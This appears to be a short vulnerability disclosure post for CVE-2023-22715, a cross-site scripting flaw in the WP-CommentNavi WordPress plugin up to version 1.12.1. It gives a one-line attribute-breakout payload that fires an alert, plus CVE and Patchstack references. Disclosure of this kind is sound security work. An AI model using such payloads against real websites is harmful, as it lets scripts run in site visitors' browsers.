 ```yaml
---
layout: post
title: CVE-2023-22715 - WP-CommentNavi Plugin <= 1.12.1 - Cross Site Scripting (XSS)
---
```


Description
============
WP-CommentNavi Plugin <= 1.12.1 This could allow a malicious actor to inject malicious scripts, such as redirects, advertisements, and other HTML payloads into your website which will be executed when guests visit your site.

Proof Of Concept
============
Payload

~~~
" onfocus=alert(/XSS/) autofocus="
~~~

References
============ 
  * [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-22715](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-22715)
  * [Patchstack](https://patchstack.com/database/vulnerability/wp-commentnavi/wordpress-wp-commentnavi-plugin-1-12-1-cross-site-scripting-xss)



[Rio Darmawan](https://patchstack.com/database/researcher/0f0ce3de-fbab-4348-9729-a5ef92c74b3e)
